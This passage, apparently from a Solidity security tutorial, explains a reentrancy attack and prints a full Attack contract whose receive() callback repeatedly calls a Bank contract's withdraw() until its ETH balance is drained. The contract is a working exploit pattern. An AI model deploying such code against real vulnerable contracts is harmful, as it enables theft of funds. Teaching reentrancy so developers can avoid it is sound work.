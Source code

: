 ```solidity
receive() external payable {
    bank.withdraw();
}
```

Below, let's take a look at the attack contract. Its logic is very simple, which is to repeatedly call the `withdraw()` function of the `Bank` contract through the `receive()` fallback function. It has `1` state variable `bank` to record the address of the `Bank` contract. It includes `4` functions:

- Constructor: Initializes the `Bank` contract address.
- `receive()`: The fallback function triggered when receiving ETH, which calls the `withdraw()` function of the `Bank` contract again in a loop for withdrawal.
- `attack()`: The attack function that first deposits funds into the `Bank` contract using the `deposit()` function, then initiates the first withdrawal by calling `withdraw()`. After that, the `withdraw()` function of the `Bank` contract and the `receive()` function of the attack contract will be called in a loop, emptying the ETH balance of the `Bank` contract.
- `getBalance()`: Retrieves the ETH balance in the attack contract.

```solidity
contract Attack {
    Bank public bank; // Address of the Bank contract

    // Initialize the address of the Bank contract
    constructor(Bank _bank) {
        bank = _bank;
    }

    // Callback function used for reentrancy attack on the Bank contract, repeatedly calling the target's withdraw function
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // Attack function, msg.value should be set to 1 ether when calling
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // Get the balance of this contract
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## Reproduce on `Remix`
